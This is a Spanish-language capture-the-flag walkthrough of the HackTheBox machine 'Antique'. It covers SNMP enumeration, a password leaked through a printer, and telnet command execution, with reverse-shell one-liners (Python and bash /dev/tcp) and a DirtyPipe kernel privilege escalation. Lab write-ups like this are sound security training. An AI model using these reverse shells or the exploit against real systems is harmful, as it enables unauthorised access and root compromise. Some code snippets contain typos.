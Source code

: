 ## Antique

---

![imagenimagen](images/20250523112657.png)

###### Técnicas demostradas:

- SNMP Enumeration
- Network Printer Abuse
- CUPS Administration Exploitation (ErrorLog)
- EXTRA -> (DirtyPipe) (CVE-2022-0847)

---

Realizamos el escaneo de puertos por TCP con `nmap`

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.107 -oG allPorts
```

![imagenimagen](images/20250429111124.png)

Realizamos un escaneo exhaustivo del puertos encontrado.

```bash
nmap -p23 -sCV 10.10.11.107 -oN targeted
```

![imagenimagen](images/20250429111530.png)

Haremos un escaneo de los puertos `UDP` de la máquina.

```bash
nmap -sU --top-ports 100 --open -T5 -v -n 10.10.11.107
```

Lo analizamos de forma exhaustiva

```bash
nmap -p161 -sU -sV -sC 10.10.11.107
```

![imagenimagen](images/20250429120521.png)

Ya que el `SNMP` es público vamos a usar la herramienta `snmpwalk` para obtener información

```bash
snmpwalk -v 2c -c public 10.10.11.107
```

![imagenimagen](images/20250429120647.png)

Lanzaremos una consulta `MIB` --> [Emisión de una consulta MIB de SNMP - Documentación de IBM](https://www.ibm.com/docs/es/networkmanager/4.2.0?topic=information-issuing-snmp-mib-query)

```bash
snmpwalk -v 2c -c public 10.10.11.107 1
```

![imagenimagen](images/20250429121023.png)

Mediante Python vamos a decodificar esta cadena

```python
import binascii

s='50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 11 9 122 123 126 130 131 134 134'

binascci.unhexlify(s.replace(' ',''))
```

![imagenimagen](images/20250429121737.png)

Otra manera de hacerlo mediante `bash`

```bash
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 11 9 122 123 126 130 131 134 134" | xargs | xxd -ps r
```

Ahora que tenemos la contraseña vamos a conectarnos a la máquina por `Telnet`

```bash
telnet 10.10.11.107 23
```

![imagenimagen](images/20250429121842.png)

Si usamos la `?` para que nos muestre las opciones

```bash
?
```

Llama la atención que permite la ejecución de comando mediante `exec` pero antes vamos a probar otra cosa.

![imagenimagen](images/20250429121904.png)

Probamos a cambiar el nombre del host

```bash
host-name: test.htb
```

![imagenimagen](images/20250429122148.png)

Tras no poder actualizarlo vamos a ejectar otro comando

```bash
exec id
```

Como vemos el usuario es `lp` que pertenece al grupo `lpadmin`

![imagenimagen](images/20250429122325.png)

Sabiendo esto vamos a preparar un payload con Python para entablarnos una reverse shell, podremos a la escucha a nuestra máquina por el puerto 1234

```bash
nc -nlvp 1234
```

Y en la máquina a través de Telnet:

```bash
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

o

```bash
exec bash -c "bash -i >& /dev/tcp/10.10.14.9/1234 0>&1"
```

![imagenimagen](images/20250429123054.png)

En el directorio personal del usuario `lp` tenemos la primera flag

![imagenimagen](images/20250429123213.png)

#### Escalada de privilegios:

Vamos a emplear la vulnerabilidad CVE-2022-0847 que afecta al kernel de versión antigua. Para ello usaremos: https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit

Una vez tenemos el exploit.c en la máquina lo complilamos:

```bash
gcc priv.c -o priv
```

Por último lo ejecutamos:

```bash
./priv
```

![imagenimagen](images/20250430102908.png)

Tenemos la flag de root:

![imagenimagen](images/20250430102948.png)
